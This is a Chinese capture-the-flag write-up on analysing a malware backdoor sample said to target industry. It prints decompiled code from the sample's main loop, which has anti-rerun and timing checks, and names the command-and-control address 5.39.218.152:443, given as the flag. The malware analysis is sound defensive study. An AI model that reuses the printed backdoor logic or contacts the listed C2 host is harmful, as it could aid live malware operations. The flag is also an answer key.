




# 恶意软件后门分析

:::note

工程师的笔记本上发现了恶意软件，经排查是一款著名针对工业领域的病毒，溯源分析远控样本文件，确认远程C&C连接地址。

flag形式为 `flag{}`

:::

题目提供了`f67b65b9346ee75a26f491b70bf6091b`可执行文件



对其进行逆向分析



从`start`跟进到`sub_402261`

```c
int sub_402261()
{
    struct _SYSTEMTIME SystemTime; // [esp+0h] [ebp-14h] BYREF
    DWORD dwMilliseconds; // [esp+10h] [ebp-4h] BYREF

    SetLastError(0);
    if ( GetLastError() != 183 )
    {
        dwMilliseconds = 5000;
        SetUnhandledExceptionFilter(TopLevelExceptionFilter);
        if ( !GetSystemMetrics(67) )
        {
            if ( sub_4023A8() )
            {
                while ( 1 )
                {
                    do
                    {
                        Sleep(dwMilliseconds);
                        GetLocalTime(&SystemTime);
                    }
                    while ( SystemTime.wHour >= 0x18u );
                    sub_402174(&dwMilliseconds);
                }
            }
        }
    }
    return 0;
}
```

继续跟进到`sub_402174`



其中`v1 = (void *)sub_40204D(L"5.39.218.152", 0x1BBu);`看起来很可疑，跟进分析`sub_40204D`



很明显的外联行为，即可确定答案

```flag
flag{5.39.218.152}
```
